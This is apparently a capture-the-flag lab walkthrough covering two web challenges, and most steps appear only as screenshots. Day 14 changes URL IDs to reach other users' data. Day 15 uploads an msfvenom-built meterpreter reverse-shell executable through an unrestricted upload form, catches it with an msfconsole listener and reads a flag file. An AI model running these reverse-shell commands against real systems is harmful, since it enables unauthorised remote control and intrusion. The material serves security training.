 ## Day 14: I'm dreaming of secure web apps

view the webapp, login with given credentials

![image](https://user-images.githubusercontent.com/90561566/208044116-88da0df1-a6a1-4383-82ef-01110e3a73d3.png)

change the url increase gradually to use 105

![image](https://user-images.githubusercontent.com/90561566/208044296-9b240d0c-deb8-4e15-83de-1020f1d6161a.png)

click on the image, new url to find for you

![image](https://user-images.githubusercontent.com/90561566/208044548-d072a533-803c-4ab3-ba92-9d50b812aedb.png)

do the same, you will see the image 100

![image](https://user-images.githubusercontent.com/90561566/208044650-f0b5e8dd-555d-4081-80cd-1bbf71802c78.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/208044827-e3747aee-51dc-499e-afd7-35f9564d33cb.png)

## Day 15: Santa is looking for a Sidekick

first, i can see the webapp is allowing with all of file uploads, create a webshell

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.127.91 LPORT=4444 -f exe -o cv.exe
```

![image](https://user-images.githubusercontent.com/90561566/208070483-84e61b67-9ef7-498e-8008-0321c07bdd5a.png)

open listener

```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST 10.10.127.91; set LPORT 4444; exploit"
```

and upload cv.exe to santa's webapp, and wait about 1 minute

![image](https://user-images.githubusercontent.com/90561566/208071272-a4b6fa23-e0d3-4b54-98c0-0c30778c370b.png)

list the users directory

![image](https://user-images.githubusercontent.com/90561566/208071820-12856702-70f6-437d-98d0-a707395857be.png)

```
cd C:/Users/HR_Elf/Documents
cat flag.txt
```

![image](https://user-images.githubusercontent.com/90561566/208072001-b6d06d6c-ba49-456d-b8a2-4b69d4ea98fc.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/208072485-28dfba93-d6f4-4b31-a4d6-d1d53d7181a9.png)
